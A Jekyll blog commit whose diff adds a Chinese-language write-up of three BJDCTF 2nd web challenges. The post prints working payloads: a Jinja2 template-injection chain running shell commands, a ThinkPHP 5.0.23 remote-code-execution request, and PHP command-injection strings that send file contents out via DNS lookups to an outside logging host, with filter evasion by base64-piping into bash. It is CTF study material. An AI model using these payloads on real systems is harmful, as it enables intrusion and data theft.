

Before and after one commit to glyuan419/glyuan419.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the top 1901 px of the page at 70% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; part of the change alters nothing that is shown; some of the changed text lies outside the part shown.

Commit message:
upload posts

````diff
--- /dev/null
+++ b/_posts/CTF Writeup/2020-03-23-BJDCTF-2nd-Web (copy).md
@@ -0,0 +1,159 @@
+---
+layout: post
+title: BJDCTF 2nd Web Writeup
+data: 2020-03-23
+categories: Writeups
+tags:
+ - CTF
+ - Writeup
+description:
+excerpt_separator: <!-- more -->
+---
+
+上周末BJD第二场，又是一届新生赛，尽管如此还是暴露出了很多问题。这段时间就先把这次总结出来的问题解决一下。
+
+<!-- more -->
+
+# fake google
+
+{% raw %}
+
+## 题目描述
+
+题目用了谷歌搜索的前端页面，随便输入点东西，返回：
+
+```
+P3's girlfirend is : foo
+```
+
+原样返回了，再看看源码：
+
+``` html
+<!--ssssssti & a little trick -->
+```
+
+## 解题思路
+
+都这么明显了，直接SSTI，先检测一下什么模板：
+
+```
+{{7*'7'}} => 7777777
+```
+
+是Jinja2。然后试了一下，发现"{%%}"标签和好多函数都不能用，最后importi了os，读取了flag，Payload：
+
+```
+{{''.__class__.__mro__[1].__subclasses__()[64].__init__.__globals__['__import__']('os').popen('base64 < /flag').read()}}
+```
+
+## 备注
+
+1. 说实话并不知道为什么那些函数不能用了，回头看看出题笔记。
+
+2. 好像也做过好几个SSTI了，当然只是是非常基础的类型，但每次都是找博客，直接抄抄改改人家的Payload。接下来好好整理总结一下SSTI。
+
+3. Payload找可用函数的时候因为"{%%}"标签不能用，是手动二分出来的，其实可以用Python搞。
+
+4. 还不是很理解Python的类什么的，回炉重造一波。
+
+5. 贴一个官方的Payload：
+
+```
+    ?name={{ config.class.init.globals['os'].popen('ls /').read() }}
+```
+
+{% endraw %}
+
+----
+
+# old-hack
+
+## 题目描述
+
+是个黑页，目录扫了一遍没什么信息，不过注意到用了ThinkPHP5。
+
+## 解题思路
+
+ThinkPHP5漏洞多多，查看Debug界面，版本为5.0.23，又一个RCE漏洞，百度了Payload：
+
+```
+?s=captcha
+POST：_method=__construct&filter[]=system&server[REQUEST_METHOD]=cat /flag
+```
+
+## 备注
+
+1. 并没有了解过ThinkPHP的一系列漏洞，打算抽空学习一下。
+2. 然后也没有学习过ThinkPHP的基本用法，Payload也用得云里雾里，下次必学。
+
+----
+
+# dungShell
+
+## 题目描述
+
+提示写到脸上了，有.swp文件。
+
+## 解题思路
+
+源码删减：
+
+{% highlight php linenos %}
+<?php
+error_reporting(0);
+echo "how can i give you source code? .swp?!"."<br>";
+if (!isset($_POST['girl_friend'])) {
+    die("where is P3rh4ps's girl friend ???");
+} else {
+    $girl = $_POST['girl_friend'];
+    if (preg_match('/\>|\\\/', $girl)) {
+        die('just girl');
+    } else if (preg_match('/ls|phpinfo|cat|\%|\^|\~|base64|xxd|echo|\$/i', $girl)) {
+        echo "<img src='img/p3_need_beautiful_gf.png'> <!-- He is p3 -->";
+    } else {
+        //duangShell~~~~
+        exec($girl);
+    }
+}
+{% endhighlight %}
+
+拦截形同虚设，可以用"php -r"执行PHP代码。不过没有回显，需要将结果打到DNS上。
+
+扫根目录：
+
+
+```
+POST：girl_friend=php -r "system('ping '.substr(implode('.',scandir('/')),6,50).'.295af172a8d3ec4abf30.d.dns.requestbin.buuoj.cn');"
+```
+
+读/flag：
+
+```
+POST：girl_friend=php -r "system('ping '.substr(system('bas""e64 /flag'),0,50).'.295af172a8d3ec4abf30.d.dns.requestbin.buuoj.cn');"
+```
+
+分两次读，解码后：
+
+```
+flag{flag-is-not-here,please-find-it-by-yourself}
+```
+
+不太对劲，要找真正的flag，在.bash_history里面看到了信息，然后再读：
+
+```
+POST：girl_friend=php -r "system('ping '.substr(system('bas""e64 /etc/demo/P3rh4ps/love/flag'),0,50).'.46418d29ca743ab417af.d.dns.requestbin.buuoj.cn');"
+```
+
+## 备注
+
+1. 后来看题解，发现我好像非预期了，.bash_history是个意外，预期思路应该是用nc命令或者curl xxxx\|bash弹Shell，然后find一下flag。
+
+2. 因为find命令会返回不止一行，而我的方法是利用了system()的返回，所以不太好用。当然也不是不可以，可以先将find的返回保存到变量foo中，然后echo一下\${foo}。至于"$"符号的绕过，可以先将命令base64编码，传到服务器再解码，然后重定向到bash里，Payload大概长这样：
+
+```
+    POST：girl_friend=php -r "system('ping '.substr(system('ec""ho YT0kKGZpbmQgLyAtbmFtZSBmbGFnKTtlY2hvICR7YToxMDoxNX18YmFzZTY0Cg==|ba""se64 -d|bash'),0,50).'.f9a0ea65a00ba5753d08.d.dns.requestbin.buuoj.cn');"
+
+    YT0kKGZpbmQgLyAtbmFtZSBmbGFnKTtlY2hvICR7YToxMDoxNX18YmFzZTY0Cg== => a=$(find / -name flag);echo ${a:10:15}|base64
+```
+
+3. 不得不说，上面这个方法太蛋疼了，得整一个VPS工具。
````
Also changed, not shown: _posts/CTF Writeup/2020-03-23-BJDCTF-2nd-Web.md (+3 -3 lines).
